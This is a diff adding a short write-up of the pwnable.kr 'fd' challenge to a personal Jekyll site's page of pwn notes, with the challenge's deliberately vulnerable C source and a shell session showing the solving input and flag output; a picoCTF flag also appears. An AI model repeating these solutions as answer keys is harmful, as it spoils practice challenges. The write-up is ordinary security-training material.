

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 11925 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 12330 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -502,3 +502,44 @@ print(io.read())
 print(io.read())
 # picoCTF{Stat1C_c4n4r13s_4R3_b4D_0bf0b08e}
 ```
+
+
+
+<br>
+
+# fd - pwnable.kr
+
+Simply pass in 0x1234 so that the fd argument to the read function is 0 (stdin) then you can enter LETMEWIN
+
+```
+fd@pwnable:~$ ls
+fd  fd.c  flag
+fd@pwnable:~$ cat fd.c
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
+char buf[32];
+int main(int argc, char* argv[], char* envp[]){
+        if(argc<2){
+                printf("pass argv[1] a number\n");
+                return 0;
+        }
+        int fd = atoi( argv[1] ) - 0x1234;
+        int len = 0;
+        len = read(fd, buf, 32);
+        if(!strcmp("LETMEWIN\n", buf)){
+                printf("good job :)\n");
+                system("/bin/cat flag");
+                exit(0);
+        }
+        printf("learn about Linux file IO\n");
+        return 0;
+
+}
+
+fd@pwnable:~$ ./fd 4660
+LETMEWIN
+good job :)
+mommy! I think I know what a file descriptor is!!
+fd@pwnable:~$
+```
````
